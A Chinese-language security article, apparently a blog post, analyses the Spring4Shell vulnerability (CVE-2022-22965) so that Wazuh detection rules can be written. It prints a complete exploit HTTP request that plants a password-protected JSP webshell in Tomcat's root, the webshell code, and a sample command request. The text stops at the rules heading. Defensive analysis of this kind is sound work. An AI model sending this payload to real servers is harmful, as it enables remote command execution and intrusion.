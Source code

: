 # 漏洞描述

在`Spring框架`的`JDK9版本（及以上版本）`中，远程攻击者可在满足特定条件的基础上，通过框架的参数绑定功能获取`Ac``c``e``ss``Log``Valve`对象并诸如恶意字段值，从而触发`pipeline`机制并写入任意路径下的文件。漏洞被称为 `S``p``ring4S``hel``l` 或 `Sprin``g``Shell`。其编号为`CVE-2022-2``2``965` ，CVSS 评分为 `9.8`。

触发该漏洞需要满足两个基本条件：

* 使用`JDK9及以上`版本的`Spring MVC`框架
* `s``p``ring-webmv``c` 或 `spring-w``e``bflux依赖`
spring framework `5.3``.0-``5.3``.1``7`、`5.``2.``0-``5.2.1``9`版本，以及更早的版本。

* 

本篇文章通过分析该漏洞的POC之后，编写了Wazuh的检测规则，以便检测该漏洞的攻击和评估内网受影响范围。

# POC分析

为了获得初始访问权限，攻击者会发送一个HTTP请求，其数据部分包含Spring4Shell payload，该payload将会生成一个JSP的webshell并上传到目标服务器上。下面是通常情况下发送的网络请求的样本：

```plain
POST / HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 762

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
该payload在Tomcat根目录下上传了一个带密码的webshell（用pwd参数进行身份验证（密码始终为j）和cmd参数用于执行命令），其内容为:
```plain
- if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = -.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))3D-1){ out.println(new String(b)); } } -
```
为了通过这个webshell调用命令，攻击者只要发出一个web请求，在cmd参数中加入所需的命令，例如:
```plain
http://localhost/tomcatwar.jsp?pwd=j&cmd=whoami
```
# WAZUH 规则编写

### 检测攻击请求

为了检测spring4shell的攻击，我们在Wazuh的管理端创建如下规则：
